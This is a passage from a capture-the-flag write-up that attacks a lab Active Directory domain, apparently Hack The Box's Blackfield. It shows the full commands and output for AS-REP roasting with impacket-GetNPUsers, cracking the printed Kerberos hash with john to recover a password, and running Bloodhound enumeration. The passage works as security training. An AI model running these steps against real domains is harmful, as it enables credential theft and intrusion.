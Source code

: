 There aren't any files within these directories, so I just compiled all the usernames into a list. There were over 300 different usernames. I tried to brute force SMB with `crackmapexec`, but no username served as a password.&#x20;

When trying ASREP-Roasting, it worked and we could get a hash for the `support` user.&#x20;

```bash
$ impacket-GetNPUsers blackfield.local/ -dc-ip 10.129.105.19 -usersfile users -outputfile hashes.asreproast
$ cat hashes.asreproast
$krb5asrep$23$support@BLACKFIELD.LOCAL:05a0cabfcc50e33745e2e89eefc310e4$419bbe29f6524d207946bf2c7a85d10c0b9fb7e2ee0539fb56de42e6140225b474ee337222074af7822f46d204e0681c257dc23b4652d3d30e08423df6b6b1e7167906a863d076a10fcac807ab4c8bfe972a993a3729ca87fd7fd65997bb84b7368691cabf62506880dcced356153685d65bca7f62b22b661f19f750c80b66774881efff55c6351e9c3027c7a7654bb470ef4ff1589738dd8191bdc5c38248c072478518c62d7d169aed727dc0f47a75b93e296cd90328b3a6a875e6a2db3f13769160e438c48664d5e81dcc68e2e3e79e5b8fb9af6288739bbbe7626ea5997d9c3691123afc869624bb2a299f5e1cc088bac9bf
```

We can crack this hash using `john`.&#x20;

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)     
1g 0:00:00:07 DONE (2023-05-07 07:28) 0.1254g/s 1798Kp/s 1798Kc/s 1798KC/s #1ByNature..#*burberry#*1990
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### Bloodhound -> Change Password

This user had no access to any new shares. However, we can use `bloodhound-python` to find more information about the domain and this user.&#x20;

```bash
$ bloodhound-python -u support -p '#00^BlackKnight' -d blackfield.local -ns 10.129.105.19 -c all --dns-tcp
```

After uploading the data to Bloodhound, we can view what the `support` user can do. It appears `support` has ForceChangePassword privileges over `audit2020`.

<figure><img src="../../../.gitbook/assets/image (309).png" alt=""><figcaption></figcaption></figure>
